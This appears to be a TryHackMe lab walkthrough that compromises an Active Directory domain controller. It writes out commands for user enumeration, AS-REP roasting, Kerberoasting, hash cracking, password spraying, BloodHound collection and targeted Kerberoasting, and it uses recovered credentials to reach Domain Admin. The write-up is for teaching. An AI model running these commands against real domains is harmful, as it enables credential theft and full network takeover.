Tryhackme - Operation Endgame - Walktrough
Summary
Enumerating the target network reveals an Active Directory Domain Controller. Authenticating to SMB as guest with a blank password, we enumerate all domain users via RID brute forcing. Using the guest account to Kerberoast, we retrieve and crack the TGS hash of CODY_ROY. Spraying CODY_ROY's cracked password across all domain users reveals that ZACHARY_HUNT reuses the same password. BloodHound analysis shows ZACHARY_HUNT has GenericWrite over JERRI_LANCASTER, allowing a Targeted Kerberoast attack to obtain and crack JERRI_LANCASTER's hash. Logging in as JERRI_LANCASTER reveals a PowerShell script in C:\Scripts containing hardcoded Domain Admin credentials for SANFORD_DAUGHERTY. Authenticating via RDP and launching an elevated shell to bypass UAC, we retrieve the flag from the Administrator's desktop.
Reconnaissance
Let's start off by executing an nmap scan.
└─$ sudo nmap -p- -sV -sC -T4 TARGET_IPNmap scan report for 10.130.170.53
Host is up (0.025s latency).
Not shown: 65505 closed tcp ports (reset)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-06-03 13:32:27Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: thm.local, Site: Default-First-Site-Name)
443/tcp open ssl/https?
| tls-alpn:
| h2
|_ http/1.1
|_ssl-date: 2026-06-03T13:34:21+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after: 2028-05-12T07:35:59
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ldapssl?
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: thm.local, Site: Default-First-Site-Name)
3269/tcp open globalcatLDAPssl?
3389/tcp open ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=ad.thm.local
| Not valid before: 2026-06-02T13:24:54
|_Not valid after: 2026-12-02T13:24:54
|_ssl-date: 2026-06-03T13:34:21+00:00; 0s from scanner time.
| rdp-ntlm-info:
| Target_Name: THM
| NetBIOS_Domain_Name: THM
| NetBIOS_Computer_Name: AD
| DNS_Domain_Name: thm.local
| DNS_Computer_Name: ad.thm.local
| Product_Version: 10.0.17763
|_ System_Time: 2026-06-03T13:33:17+00:00
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
49670/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49671/tcp open msrpc Microsoft Windows RPC
49675/tcp open msrpc Microsoft Windows RPC
49676/tcp open msrpc Microsoft Windows RPC
49681/tcp open msrpc Microsoft Windows RPC
49694/tcp open msrpc Microsoft Windows RPC
49716/tcp open msrpc Microsoft Windows RPC
49718/tcp open msrpc Microsoft Windows RPC
49784/tcp open msrpc Microsoft Windows RPC
Service Info: Host: AD; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
| smb2-time:
| date: 2026-06-03T13:33:18
|_ start_date: N/AThe Nmap scan reveals a Windows Domain Controller with several key services exposed: DNS (53), Kerberos (88), LDAP (389), SMB (445), and RDP (3389). The LDAP and RDP banners confirm the domain name is thm.local and the machine hostname is AD. We add thm.local and AD.thm.local to /etc/hosts pointing to the target IP for easier name resolution. With a Domain Controller identified, our focus is now Active Directory enumeration.
Enumeration
Lets first enumerate users using Kerbrute:
└─$ kerbrute userenum -d thm.local --dc thm.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
I found 2 valid users using Kerbrute. I tried the xato million user list, but it only returned the same 2 usernames, the default built-in accounts:
> guest
> administrator
I performed an AS-REP Roasting attack using Impacket's GetNPUsers. This technique targets accounts that have Kerberos pre-authentication disabled, a misconfiguration that allows anyone to request an AS-REP from the Domain Controller without supplying credentials. The DC's response contains data encrypted with the user's password hash, which can be taken offline and cracked using a wordlist.
└─$ impacket-GetNPUsers thm.local/ -dc-ip thm.local -no-pass -usersfile users.txtAlthough this didn't yield results, I was able to enumerate more users by authenticating as guest with a blank password:
└─$ impacket-lookupsid thm.local/guest@thm.local -no-pass | grep SidTypeUser | awk -F'\' '{print $2}' | awk '{print $1}' > users.txt This command enumerates users and writes them to a file called users.txt. With the full user list in hand, I ran the same AS-REP Roasting attack again. This time with more success, a total of 5 users were found vulnerable:
> MAXINE_FREEMAN
> PHYLLIS_MCCOY
> QUEEN_GARNER
> ISIAH_WALKER
> SHELLEY_BEARD
I tried cracking all hashes with Hashcat against the rockyou wordlist, but without success.
With a valid (but low-privilege) guest session, I used impacket-GetUserSPNs to query the DC for accounts with registered Service Principal Names.
└─$ impacket-GetUserSPNs thm.local/guest: -dc-ip thm.local -no-pass -requestWhat this does
thm.local/guest: authenticating as guest with a blank password
-dc-ip thm.local: Specifying where the Domain Controller lives
-no-pass: Don't prompt for a password
-request: Actually retrieve the TGS tickets, not just list the SPNs
It found the Kerberos 5 hash of user CODY_ROY:

Because Kerberos allows any authenticated domain user to request service tickets, no elevated privileges were required. As seen in the image above, the DC issued a TGS for CODY_ROY encrypted with that account's password hash. I cracked the hash using hashcat:
└─$ hashcat -m 13100 -a 0 hashes.txt rockyou.txt
Exploitation
As seen in the output of impacket-GetUserSPNs user CODY_ROY is part of the RDP users. Which means we can start an RDP session as CODY_ROY with the following command:
└─$ xfreerdp3 /cert:ignore /v:thm.local /u:'CODY_ROY' /p:'CODY_ROY_PASSWORD' /dynamic-resolution /drive:.,linux /auto-reconnect /clipboard /compression /bpp:8 /audio-mode:0 -window-drag -themes -wallpaperLogging in via RDP confirmed the credentials are valid. Although the session was heavily restricted by Group Policy, preventing us from opening Explorer or interacting with the desktop, we successfully authenticated as CODY_ROY, which is enough to proceed with further enumeration.
We can use BloodHound to calculate the shortest path to Domain Admin. First, we need to import the data into BloodHound. We can generate a zip file containing all domain data collected using CODY_ROY's credentials and feed it to BloodHound:
└─$ bloodhound-ce-python -u CODY_ROY -p 'PASSWORD' -d thm.local -dc AD.thm.local -ns TARGET_IP -c All --zipThen in BloodHound go to Explore > Pathfinding and enter CODY_ROY@THM.LOCAL as the start node and DOMAIN ADMINS@THM.LOCAL as the destination node:

Although BloodHound reveals a theoretical path to Domain Admin through the GUESTS group and TIER 2 OU, exploiting this path proved impractical. Instead, we pivot to password spraying, a technique that checks whether CODY_ROY's cracked password is reused by other domain accounts. Using NetExec, we sprayed CODY_ROY's cracked password against the full user list:
└─$ netexec smb 10.128.166.23 -u users.txt -p 'CODY_ROY_PASSWORD_HERE' --no-bruteforce --continue-on-successThis revealed that ZACHARY_HUNT reuses the same password as seen in the image:
Returning to BloodHound with ZACHARY_HUNT marked as owned, by entering the following Cypher query in bloodhound we identified that this account has GenericWrite over JERRI_LANCASTER.
└─$ MATCH p=(u:User {name:"ZACHARY_HUNT@THM.LOCAL"})-[r]->(n) RETURN p
GenericWrite allows us to write to select attributes of the target object, in this case we can set a fake SPN on JERRI_LANCASTER, enabling a Targeted Kerberoast attack:
└─$ python3 targetedKerberoast.py -u ZACHARY_HUNT -p 'PASSWORD_HERE' -d thm.local --dc-ip 10.128.150.65 --only-abuse --request-user JERRI_LANCASTER
It returned the Kerberos 5 hash of JERRI_LANCASTER. I cracked the hash using hashcat:
└─$ hashcat -m 13100 -a 0 hash.txt rockyou.txt
Post-Exploitation
We log in as JERRI_LANCASTER via RDP using the following command:
└─$ xfreerdp3 /cert:ignore /v:10.128.150.65 /u:'JERRI_LANCASTER' /p:'CRACKED_PASSWORD' /dynamic-resolutionThe Windows environment is still pretty restricted. However, we can open a PowerShell window by holding Shift and right-clicking the Desktop, then selecting "Open PowerShell window here". Navigating to C:\ revealed the C:\Scripts\ folder, which contained a PowerShell script:

Reading the file in PowerShell reveals the hardcoded password of user SANFORD_DAUGHERTY.

I entered SANFORD_DAUGHERTY in BloodHound and found out that this user is a Domain Admin:

Let's try to log in as SANFORD_DAUGHERTY via RDP:
└─$ xfreerdp3 /cert:ignore /v:10.128.150.65 /u:'SANFORD_DAUGHERTY' /p:'SANFORD_PASSWORD' /dynamic-resolutionI tried listing the files and directories in the admin users folder, but I still received "Access Denied":

Although SANFORD_DAUGHERTY is a member of Domain Admins, the whoami /all output shows the group listed as "Group used for deny only". This is a result of UAC (User Account Control), when logging in via RDP, Windows creates a medium integrity token that strips elevated group memberships. To obtain a high integrity token with full Domain Admin privileges, we need to explicitly launch an elevated process. We can do so by executing the following command inside Powershell:
└─$ Start-Process powershell -Verb RunAsThis spawns a shell as Administrator in C:\Windows\system32. With that being said, lets retrieve the one and only flag:

Thank you for following along, I hope you learned something new today. I certainly did. Have a nice rest of your day!